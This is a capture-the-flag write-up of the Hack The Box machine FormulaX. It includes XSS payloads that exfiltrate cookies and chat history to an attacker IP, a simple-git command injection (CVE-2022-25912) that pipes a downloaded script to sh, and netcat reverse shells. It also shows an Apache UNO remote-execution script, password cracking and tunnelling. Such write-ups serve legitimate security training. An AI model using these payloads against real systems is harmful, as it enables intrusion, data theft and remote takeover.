




---
---

# HTB - FormulaX


```bash
nmap 10.129.215.40 -A
 
```


- HttpOnly is set so we can't steal cookies:


\*\* I had to reset the box a few times because of this \*\*

Server-side XSS vulnerability in the contact page's fields (all three):


\*\* When using eval() it is instead of the \<script\> tags

<u>To test (because we can't use alert() here):</u>

- Using the payload:  

```java
fetch("http://10.10.14.48:8085/" + document.cookie);

```
- And then obfuscating it:

Which evaluates to (injected into first name):

```java
\

```

- We get a response back:


- Trying a different payload (still base64 encoding it, etc):

```java
fetch("http://10.10.14.48:8080/?d=" + encodeURIComponent(window.location.href));

```


This gives us the domain  `http://chatbot.htb/admin/admin.html`

**<u>XSS Websocket - Exploit</u>**


- We are working with websockets here.
Looking in the page source and Burp requests we can see **sockets.io** and **axios** being used

Axios is a promise-based HTTP client for making asynchronous requests to RESTful APIs, while Socket.IO enables real-time, bidirectional communication between clients and servers using WebSockets with fallbacks.

```java
const script = document.createElement('script');
script.src = '/socket.io/socket.io.js';
document.head.appendChild(script);

script.addEventListener('load', function () {
    // Fetch user chat history
    axios.get('/user/api/chat');

    // Connect to the socket with credentials
    const socket = io('/', { withCredentials: true });

    // Listen for incoming messages and exfiltrate them
    socket.on('message', (my_message) => {
        fetch("http://10.10.14.48:8080/?d=" + btoa(my_message));
    });

    // Request chat history
    socket.emit('client_message', 'history');
});

```

This gets base64 encoded and put in to the atob() function - then paste it into first name:

```java


```
- Now we get something different back:


If we Base64 decode these - we get:




- We get a subdomain to add to /etc/hosts:
**dev-git-auto-update.chatbot.htb**

---------------------------------------------------------------------------------------------------------------------------------------------

- This can also be done with more native API's like Fetch:

**Replace Axios with** the native **Fetch API** for making HTTP requests.

The Fetch API is built into modern browsers and provides a powerful interface for fetching resources

```javascript
const script = document.createElement('script');
script.src = '/socket.io/socket.io.js';
document.head.appendChild(script);

script.addEventListener('load', function() {

    // Replacing Axios GET request with Fetch
    fetch(`/user/api/chat`)
        .then(response => response.json())
        .then(data => console.log(data))
        .catch(error => console.error('Error:', error));

    const socket = io('/', { withCredentials: true });

    socket.on('message', (my_message) => {
        fetch("http://10.10.14.48:8080/?d=" + btoa(my_message));
    });

    socket.emit('client_message', 'history');
});

```
After adding dev-git-auto-update.chatbot.htb to /etc/hosts, we get:


**<u>CVE-2022-25912</u>**

<https://security.snyk.io/vuln/SNYK-JS-SIMPLEGIT-3112221>

- Create a bash script:

```bash
#!/bin/sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.48 9003 >/tmp/f
```

- Set up python server:

```bash
sudo python -m http.server 80

```
- Set up listener

- Now we need to modify the code from Snyk:

```bash
ext::sh -c curl% http://10.10.14.48/bash_script.sh|sh >&2

```
- Open Burp and intercept the POST request, change the destinationURL parameter:


- And we have a shell:


- Accessing the mongo db:


- The dbs with useful information was testing -\> users

```bash
mongo
show dbs
use testing
db.users.find()
exit

```


- We can see two users (apart from root):


- Cracked frank_dorky's password:

```bash
hashcat -m 3200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

```



- Now we can SSH in:
```bash
ssh frank_dorky@10.129.215.190

```


```bash
cat user.txt

```
- Copy LinPEAS over:

```bash
scp linpeas.sh frank_dorky@10.129.215.190:/home/frank_dorky/

```


- Server running locally on port 3000

- Upload chisel to the target:

```bash
#On Kali:
./chisel server -p 8888 --reverse

#On target:
./chisel client 10.10.14.48:8888 R:socks
```

- Run FoxyProxy:


- Go to the site:


- We get a login page
- The default credentials didn't work

- Add new user:

```bash
cd /opt/librenms
php adduser.php player1 player1 10

```


php adduser.php \<username\> \<password\> \<access level\>

\*10 is the highest level of access

- Login with new user:


- Now we can login as Kai Relay (admin)


- If we go to Settings -\> Validate Config


- We get an error:



- Add librenms.com to /etc/hosts

---------------------------


Using DNS names through chisel on 127.0.0.1 - doesn't seem to work

- So we have to port forward 3000 to our machine:

```bash
ssh -L 3000:127.0.0.1:3000 frank_dorky@10.129.215.190

```
Now we can navigate to:

`http://librenms.com:3000`

---------------------------

- If we go to Alerts -\> Alert Templates:
We can now edit them. Before it didn't allow use to do it

- Looking at one of the foo templates:


- We can edit the base64 with our own IP and port
- Set up a listener
- Update template

- We get a shell as librenms (not kai)


- Run LinPEAS again

- We get db creds:
**kai_relay : mychemicalformulaX**


- We can either connect to the db:

```bash
mysql -u kai_relay -p'mychemicalformulaX' librenms

```
- Or:

```bash
su kai_relay

```


And kai_relay is in the sudo group

```bash
sudo -l

```


Kai can run /usr/bin/office.sh as sudo


- The command is for launching LibreOffice Calc in a headless mode with a specific set of options, allowing for remote connections (e.g., for automation tasks)

- Run the script:


And connect to it:


- After googling that I found this code:
<https://www.exploit-db.com/exploits/46544>

<https://github.com/sud0woodo/ApacheUNO-RCE>

```python
import uno
from com.sun.star.system import XSystemShellExecute
import argparse

parser = argparse.ArgumentParser()
parser.add_argument('--host', help='host to connect to', dest='host', required=True)
parser.add_argument('--port', help='port to connect to', dest='port', required=True)
args = parser.parse_args()

# Define the UNO component
localContext = uno.getComponentContext()

# Define the resolver to use, this is used to connect with the API
resolver = localContext.ServiceManager.createInstanceWithContext(
    "com.sun.star.bridge.UnoUrlResolver", localContext
)

# Connect with the provided host on the provided target port
print("[+] Connecting to target...")
context = resolver.resolve(
    "uno:socket,host={0},port={1};urp;StarOffice.ComponentContext".format(args.host, args.port)
)

# Issue the service manager to spawn the SystemShellExecute module and execute shell.sh
service_manager = context.ServiceManager
print("[+] Connected to {0}".format(args.host))
shell_execute = service_manager.createInstance("com.sun.star.system.SystemShellExecute")
shell_execute.execute("./shell.sh", '', 1)

```

- Create a shell.sh with:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.48 7777 >/tmp/f

```

```bash
chmod +x shell.sh
```

- Now replace calc.exe with shell.sh
- Set up a listener

- Run the script:


